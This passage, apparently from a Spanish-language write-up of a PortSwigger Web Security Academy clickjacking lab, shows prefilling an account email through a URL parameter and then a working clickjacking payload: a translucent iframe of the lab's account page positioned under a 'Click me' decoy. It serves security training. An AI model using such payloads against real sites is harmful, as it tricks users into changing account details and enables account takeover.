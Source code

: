El siguiente paso es `añadir` el `parámetro email` a la `URL` y ver si se `rellena` el `campo email del formulario`, para ello, accedemos a `https://0a0f00df03253f5280a3a31000330041.web-security-academy.net/my-account?email=pwned@gmail.com` y vemos que sí que funciona

![](/assets/img/Clickjacking-Lab-3/image_7.png)

Una vez comprobado esto, ya podemos `construir` un `payload`, para ello, nos dirigimos al `Exploit Server` y pegamos este `payload`

```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.3;
       z-index: 2;
   }
   div {
       position:absolute;
       top:450px;
       left:75px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0a6a0005048fd811816ed403009c00d9.web-security-academy.net/my-account?email=pwned@gmail.com"></iframe>
```
